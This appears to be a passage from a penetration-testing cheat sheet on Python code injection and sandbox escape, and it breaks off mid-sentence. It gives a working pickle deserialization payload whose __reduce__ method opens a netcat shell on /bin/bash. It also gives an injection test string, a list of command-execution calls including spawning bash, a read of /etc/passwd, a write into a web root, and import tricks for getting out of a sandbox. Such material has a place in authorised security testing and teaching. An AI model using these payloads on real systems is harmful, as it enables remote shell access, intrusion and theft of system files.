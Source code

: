 
Python

Server using python

test a possible code execution, using the function str():

"+str(True)+" #If the string True is printed, then it is vulnerable

Python
Pickle

When the object gets unpickle, the function __reduce__ will be executed.
When exploited, server could return an error.

import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))

You can find here several tricks to obtain code executing in python if you can execute arbitrary code

Bypass Python sandboxes

These are some tricks to bypass python sandbox protections and execute arbitrary commands.
Command Execution Libraries

The first thing you need to know is if you can directly execute code with some already imported library, or if you could import any of these libraries:

os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
​
#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

Remember that the open and read functions can be useful to read files inside the python sandbox and to write some code that you could execute to bypass the sandbox.
Python2 input() function allows to execute python code before the program crashes.
Importing

import os
from os import *
__import__('os').system("ls")

If sysmodule is present, you can use it to access oslibrary for example:
